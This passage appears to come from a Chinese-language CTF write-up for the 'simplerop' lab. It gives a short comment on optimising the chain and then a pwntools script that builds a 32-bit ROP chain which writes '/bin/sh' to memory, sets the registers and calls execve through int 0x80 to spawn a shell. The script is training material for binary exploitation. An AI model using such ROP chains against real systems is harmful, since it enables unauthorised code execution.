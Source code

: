 注释都已经写在代码里了，主要优化了将 /bin/sh\x00 读入以及设置 ebx，ecx，edx 等寄存器的过程

> 或者直接 return 到 read 函数，将 /bin/sh\x00 read 到 bss/data 段，能得到更短的 ropchain, 解决方法有很多,不再细说

最终脚本:

```python
lab5 [master●●] cat solve.py 
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'M4x'

from pwn import *
from struct import pack

p = lambda x : pack('I', x)

IMAGE_BASE_0 = 0x08048000 # ./simplerop
rebase_0 = lambda x : p(x + IMAGE_BASE_0)

pop_edx_ecx_ebx = 0x0806e850

rop = ''

# write /bin/sh\x00 to 0x08048000 + 0x000a3060
rop += rebase_0(0x00072e06) # 0x080bae06: pop eax; ret; 
#  rop += '//bi'
rop += '/bin'
rop += rebase_0(0x0002682a) # 0x0806e82a: pop edx; ret; 
rop += rebase_0(0x000a3060)
rop += rebase_0(0x0005215d) # 0x0809a15d: mov dword ptr [edx], eax; ret; 
rop += rebase_0(0x00072e06) # 0x080bae06: pop eax; ret; 
rop += '/sh\x00'
rop += rebase_0(0x0002682a) # 0x0806e82a: pop edx; ret; 
rop += rebase_0(0x000a3064)
rop += rebase_0(0x0005215d) # 0x0809a15d: mov dword ptr [edx], eax; ret; 
print "[+]write /bin/sh\x00 to 0x08048000 + 0x000a3060"

#  rop += rebase_0(0x00072e06) # 0x080bae06: pop eax; ret; 
#  rop += p(0x00000000)
#  rop += rebase_0(0x0002682a) # 0x0806e82a: pop edx; ret; 
#  rop += rebase_0(0x000a3068)
#  rop += rebase_0(0x0005215d) # 0x0809a15d: mov dword ptr [edx], eax; ret; 
#  rop += rebase_0(0x000001c9) # 0x080481c9: pop ebx; ret; 
#  rop += rebase_0(0x000a3060)
#  rop += rebase_0(0x0009e910) # 0x080e6910: pop ecx; push cs; or al, 0x41; ret; 
#  rop += rebase_0(0x000a3068)
#  rop += rebase_0(0x0002682a) # 0x0806e82a: pop edx; ret; 
#  rop += rebase_0(0x000a3068)

# set ebx -> /bin/sh\x00, ecx = edx = 0
rop += pack('I', pop_edx_ecx_ebx)
rop += p(0)
rop += p(0)
rop += rebase_0(0x000a3060)
print "[+]set ebx -> /bin/sh\x00, ecx = edx = 0"

rop += rebase_0(0x00072e06) # 0x080bae06: pop eax; ret; 
rop += p(0x0000000b)
rop += rebase_0(0x00026ef0) # 0x0806eef0: int 0x80; ret; 
assert len(rop) <= 100 - 32

io = process("./simplerop")

payload = cyclic(32) + rop
```